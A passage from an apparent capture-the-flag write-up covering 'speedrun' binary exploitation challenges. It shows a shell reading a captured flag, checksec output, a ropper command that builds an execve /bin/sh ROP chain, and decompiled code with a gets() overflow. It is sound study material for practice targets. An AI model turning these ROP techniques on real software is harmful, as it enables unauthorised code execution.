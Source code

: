 ```bash  
$ id  
uid=1000(chall_13) gid=1000(chall_13) groups=1000(chall_13)  
$ ls -l  
total 12  
-rwxr-xr-x 1 root root     7380 Nov  7 07:49 chall_13  
-rw-r----- 1 root chall_13   34 Nov  7 08:52 flag.txt  
$ cat flag.txt  
sun{almost-easy-61ddd735cf9053b0}  
```

## speedrun-14

### Checksec  
```  
   Arch:     amd64-64-little  
   RELRO:    Partial RELRO  
   Stack:    Canary found  
   NX:       NX enabled  
   PIE:      No PIE (0x400000)  
```

No PIE, but everything else (mostly)--this is ROP, and the solution I used in
[speedrun-13](#speedrun-13) could be used here (x86_64 version, e.g.
[roprop](https://github.com/datajerk/ctf-write-
ups/tree/master/darkctf2020/roprop)), BUT.... this is statically linked:

```bash  
$ file chall_14  
chall_14: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically
linked,  
for GNU/Linux 3.2.0, BuildID[sha1]=2936c7ad85f602a3701fef5df2a870452f6d3499,
not stripped  
```

IOW, this is loaded with ROP gadgets, getting a shell is easy, just run:

```  
ropper --file chall_14 --chain "execve cmd=/bin/sh" --badbytes 0a  
```

and send that to the return address on that stack.

### Decompile with Ghidra

```c  
void main(void)  
{  
 char local_68 [64];  
 char local_28 [32];  
  
 puts("You can hear the sound of a thousand...");  
 fgets(local_28,0x14,(FILE *)stdin);  
 gets(local_68);  
 return;  
}  
```

